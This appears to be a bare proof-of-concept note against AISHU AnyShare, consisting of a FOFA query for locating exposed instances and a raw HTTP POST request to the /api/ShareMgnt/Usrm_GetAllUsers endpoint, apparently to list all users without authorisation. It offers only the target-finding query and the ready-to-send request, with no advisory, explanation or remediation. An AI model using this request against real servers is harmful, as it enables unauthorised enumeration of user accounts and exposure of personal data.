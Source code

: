 fofa

```
app="AISHU-AnyShare"
```



```
POST /api/ShareMgnt/Usrm_GetAllUsers HTTP/1.1
Host: host

[1,10]
```

